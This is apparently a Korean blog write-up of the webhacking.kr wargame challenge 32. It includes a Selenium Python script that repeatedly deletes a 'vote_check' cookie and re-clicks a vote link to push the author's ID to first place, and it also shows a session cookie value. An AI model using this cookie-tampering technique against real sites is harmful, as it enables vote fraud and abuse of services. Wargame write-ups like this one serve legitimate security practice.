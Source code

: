 ```yaml
---
title: "Security: webhacking.kr 32-36"
last_modified_at: 2020-08-05T20:20:02-05:00
categories:
  - Security
tags:
  - webhacking.kr
  - 웹해킹
toc: true 
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true 
author_profile: true 
read_time: false 
---
```

---
### 32 문제풀이 (코딩을 이용하여 사이트 연결)
---

이번 문제는 쉬어가는 문제인듯 하다. 32번 문제에 들어가보니 알수없는 랭크가 주우욱 나열 되어있다.
이중에 내 아이디도 있나 찾아봤더니 있다. 보고있다가 1등이 되어야 직성이 풀릴것 같아서 코드로 바로 1위로 만들어 놨다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제32/32-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

내 id를 누르면 투표가 되었다는 메세지가 뜨고 한번더 누르면 이미 투표를 하였다는 메세지가 뜬다.
 쿠키를 살펴보면 vote_check의 유무로 투표를 했는지 안했는지를 가리기 때문에 쿠키를 삭제하면 다시 투표가 가능하다.
{: .notice}

```python
from selenium import webdriver
from selenium.webdriver.remote.webelement import WebElement
from selenium.webdriver.common.keys import Keys
from selenium.webdriver import ActionChains
import re

url = "https://webhacking.kr/challenge/code-5/"
chromedriver = 'C:/Users/authe/AppData/Local/Programs/Python/Python38/Scripts/chromedriver.exe'
driver = webdriver.Chrome(chromedriver)

driver.get("https://webhacking.kr/login.php?id=내id,pw=비밀번호")
cookie = {'name':'PHPSESSID', 'value':'22dgvb72ggdjujabn7upvok23a'}
driver.add_cookie(cookie)
driver.get(url)

for n in range(0,100):
    
    driver.delete_cookie('vote_check')
    driver.get(url)
    submitButton = driver.find_element_by_xpath("//*[contains(text(),'authentic75')]")
    submitButton.click()
```
